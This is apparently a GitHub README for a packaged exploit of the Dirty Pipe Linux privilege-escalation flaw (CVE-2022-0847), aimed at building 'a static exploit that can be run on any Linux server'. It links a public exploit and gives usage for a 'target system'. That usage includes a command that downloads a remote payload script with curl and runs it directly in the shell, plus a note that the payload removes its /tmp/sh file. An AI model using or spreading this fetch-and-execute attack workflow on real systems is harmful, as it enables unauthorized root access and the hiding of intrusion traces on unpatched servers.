 # dirtypipe (CVE-2022-0847)

!(screenshot)[./files/dirtypipe.png]

## References: 
- [ArsTechnica article](https://arstechnica.com/information-technology/2022/03/linux-has-been-bitten-by-its-most-high-severity-vulnerability-in-years/)
- [Max Kellermann's article and PoC](https://dirtypipe.cm4all.com/)
- [Public exploit](https://haxx.in/files/dirtypipez.c)

## Objective

Build a static exploit that can be run on any Linux server.

## How to build

```bash
./build.sh
```

## How to use

Once uploaded on the target system:

```bash
source payload.sh
```

If uploaded on a webserver:

```bash
source <(curl -s https://webserver/payload.sh)
```

## `dirtypipez.c`

The source on this repo is a bit modified (log message) as the `payload.sh` takes care of removing the `/tmp/sh` file.
